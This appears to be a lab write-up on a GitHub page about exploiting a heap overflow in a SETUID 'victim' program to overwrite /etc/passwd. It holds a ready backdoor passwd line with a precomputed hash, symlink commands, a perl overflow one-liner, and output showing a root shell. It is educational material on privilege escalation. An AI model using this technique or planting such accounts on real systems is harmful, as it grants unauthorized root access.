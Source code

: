 # Adding Root User By Using Heap Overflow

## Assumption

1. '/etc/notes' is owned by 'root'.
2. Program 'victim' is SETUID file and owned by 'root'.

## Blueprint

In victim.c, memory for 'buffer' is allocated first and then memory for 'datafile' is allocated.   
Strcpy() is used for 'buffer' and this program can write something in files which is owned by root!   
So I'll create a root user by writing user_info in '/etc/passwd'.    
>:~$ ./victim 'argument to exploit'

## Procedure

1. User_info format   
  In /etc/passwd...   
  ```
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  .
  .
  .
  yong:x:1000:1000:yong,,,:/home/yong:/bin/bash
  ```   

  Each field is separated by colon -> login name:password:uid:gid:user name:home directory:login shell   
  Password field is substituted by 'x' because of security.   
  In linux, real value of this field is H(password, salt) where H() is hash and salt is arbitrary two alphabets.   
  And the value is stored in shadow file.   
  If the password of 'yong' is 123456 and salt is "XX", then x is H("123456","XX").    
  By using crypting program 'cryption' attached, we can easily find H("123456", "XX") = XXVgr9a1cu6os.  

  ```
  /* You must link -lcrypt when compiling it*/
  :~$ gcc -o cryption cryption.c -lm -lcrypt
  ```
  So the string which has to be appended in '/etc/passwd' is "myroot:XXVgr9a1cu6os:0:0:USERNAME:/root:/bin/bash".    
  Here we have to focus the first two characters of hash value. It's just the salt we use!    
  So the password for 'myroot' is 123456 and when we enter "123456" for myroot's password, system will check    
  myroot's password field and take "XX" to salt and generate "XXVgr9a1cu6os".   
        
2. Symbolic file link   
  As we can see, the string for user_info should be end with '/bin/bash'(login shell).    
  But to overwrite 'datafile' to '/etc/passwd' by using overflow, argument which is passed to 'victim' should be end with '/etc/passwd'   
  So I'll use symbolic file link to make temp/etc/passwd->bin/bash
  ```
  :~$ mkdir /tmp/etc
  :~$ ln -s /bin/bash /tmp/etc/passwd
  :~$ ls -l /tmp/etc/passwd
  lrwxrwxrwx 1 yong yong 8 4월 16 22:43 /tmp/etc/passwd -> bin/bash
  ```
  Now, we can set loginshell of myroot to /tmp/etc/passwd! 
  
3. Making Command Line Argument
  First of all, we have to calculate the distance between 'buffer' and 'datafile' in victim.c
  In this case, we can easily calculate the distance by executing because this program gives debugging information    
  for buffer and datafile. It isn't realistic....    
  Since command line argument form is    
  
  >"myroot:XXVgr9a1cu6os:0:0:AAAAA........AAAA:/root:/tmp/etc/passwd"    
  
  the length of string from 'myroot' to '/tmp' should be same with the distance between 'buffer' and 'datafile'.   
  Let's assume the number of 'A' is k which satisfing this condition. Then we can add root user by 
  
  >./victim $(perl -e 'print "myroot:XXVgr9a1cu6os:0:0:" . "A" x k . ":/root:/tmp/etc/passwd"')  
  
  ```
  :~$ cat etc/passwd
   root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  .
  .
  .
  yong:x:1000:1000:yong,,,:/home/yong:/bin/bash
  ?
  myroot:XXVgr9a1cu6os:0:0:AAAAA........AAAA:/root:/tmp/etc/passwd
  ```
  
  ```
  :~$ su myroot
  Password: 123456
  root@yong:/home/yong# whoami
  root
  ```
  
